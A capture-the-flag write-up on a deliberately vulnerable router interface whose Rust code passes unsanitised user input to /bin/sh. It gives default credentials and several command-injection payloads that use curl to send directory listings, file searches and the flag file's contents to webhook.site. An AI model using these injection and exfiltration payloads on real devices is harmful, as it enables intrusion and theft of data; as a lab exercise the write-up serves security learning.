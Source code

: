 ```yaml
---
created: 2024-06-15T04:41
updated: 2024-06-21T21:30
---
```


> We are developing a new router but not sure if the interface has bug or not. Could you have a look?

Simple source digging gives us the username and password.

```
Username: admin
Password: 123456 (md5=e10adc3949ba59abbe56e057f20f883e)
```

```rust
fn save_properties_to_file(){
    unsafe{
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");
        Command::new("/bin/sh")
                        .arg("-c")
                        .arg(cmd)
                        .output()
                        .expect("Failed to execute command");
    }
}
```

It is simple formatting. *face palms*

Changing passwords has no verification.

Payload will be `"; CMD; echo "`, probably not the shortest but it will do the trick.

I will also send all results via curl to webhook.site.

```
"; curl -X POST -d "$(ls -la)" https://webhook.site; echo "
```

`ls` didn't find anything, maybe its some flag.txt thing.

```
"; curl -X POST -d "$(find / -type f -name "*flag*")" https://webhook.site; echo "
```

And there it is.

```
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/home/user/flag.txt
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/waitflags.ph
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/ss_flags.ph
/sys/devices/pnp0/00:05/tty/ttyS2/flags
/sys/devices/pnp0/00:03/tty/ttyS0/flags
/sys/devices/pnp0/00:06/tty/ttyS3/flags
/sys/devices/pnp0/00:04/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

One last step from `/home/user/flag.txt`

```
"; curl -X POST -d "$(cat /home/user/flag.txt)" https://webhook.site; echo "
```

```flag
vsctf{1s_1t_tru3_wh3n_rust_h4s_c0mm4nd_1nj3ct10n!??}
```
